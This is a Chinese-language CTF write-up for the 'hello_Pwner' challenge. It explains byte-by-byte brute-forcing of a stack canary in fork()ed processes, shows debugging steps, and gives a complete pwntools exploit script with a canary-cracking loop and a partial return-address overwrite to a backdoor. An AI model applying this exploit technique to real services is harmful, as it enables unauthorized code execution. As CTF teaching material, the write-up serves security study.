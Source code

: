 ```yaml
---
title: iscc_hello_Pwner_wp
date: 2021-05-09 11:51:39
tags:

---
```




# iscc_hello_pwner_wp

>one-by-one 爆破Canary原理
>
>1.对于Canary，虽然每次进程重启后Canary不同，但是同一个进程中的不同线程的Cannary是相同的，并且通过fork函数创建的子进程中的canary也是相同的，因为fork函数会直接拷贝父进程的内存。
>
>2.最低位为0x00，之后逐次爆破，如果canary爆破不成功，则程序崩溃；爆破成功则程序进行下面的逻辑。由此可判断爆破是否成功。



## 主函数

![](https://i.imgur.com/wkVw66U.png)

无限循环fork()子进程

进入vuln()函数：

## vuln()

![](https://i.imgur.com/M6f5TTi.png)

可以看到v1正是canary，其位置在ebp-0xc。

缓冲区在ebp-0x70的位置。



## 后门函数

![](https://i.imgur.com/NXpaIJh.png)



## 动态调试

> LD_PRELOAD=/lib/i386-linux-gnu/libc.so.6 ./hello_Pwner
>
> ps -el
>
> sudo gdb attach  pid





![](https://i.imgur.com/E5SiKcM.png)

动态调试发现backdoor的地址和read_plt的地址只有后四位不同，后三位各函数都是固定的，于是只需要爆破第四位就行。



## 爆破canary

> *anary*一般是尾随的(也有特殊情况,具体看作者的汇编情况),在32位下是4个*字节*,64位下是8个*字节*(最低位都是\x00) 

这里通过循环实现对剩余七个字节的爆破，（CANARY的最低字节为00）

```
canary = '\x00'
for k in range(3):
    for i in range(256):
        print "the " + str(k) + ": " + chr(i)
        p.send('a'*100 + canary + chr(i))
        a = p.recvuntil("Hello,Pwner!\n")
        print a

        
        if "*** stack smashing detected ***: ./hello_Pwner terminated\n" in a:
            continue
        else:
                canary += chr(i)
                print "canary: " + canary
                break
```



payload = 'A' * 100 + canary + 'A' * 12 + "\xba\x**7**7"

> 这个7可以换成0-f的任意一个

最后的exp：







```
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
context(arch='i386', os='linux')
local = 1
elf = ELF('./hello_Pwner')

if local:
    p = process('./hello_Pwner')
    elf=ELF('./hello_Pwner')
    #libc = ELF("./libc.so.6")

else:
    p = remote('39.96.88.40',8010)
    libc = ELF('./hello_Pwner')
p.recvuntil('Hello,Pwner!\n')


puts_plt = elf.plt['puts']
puts_gots=elf.got['puts']
print p32(puts_plt)

canary = '\x00'
for k in range(3):
    for i in range(256):
        print "the " + str(k) + ": " + chr(i)
        p.send('a'*100 + canary + chr(i))
        a = p.recvuntil("Hello,Pwner!\n")
        print a

        
        if "*** stack smashing detected ***: <unknown> terminated\n" in a:
            continue
        else:
                canary += chr(i)
                print "canary: " + canary
                break
payload = 'A' * 100 + canary + 'A' * 12 + "\xba\x77"#read  and back zhi you  hou si ge zi jie bu yi yang
p.send(payload)
p.interactive()
```



 对远端多次运行exp，总有一次成功。

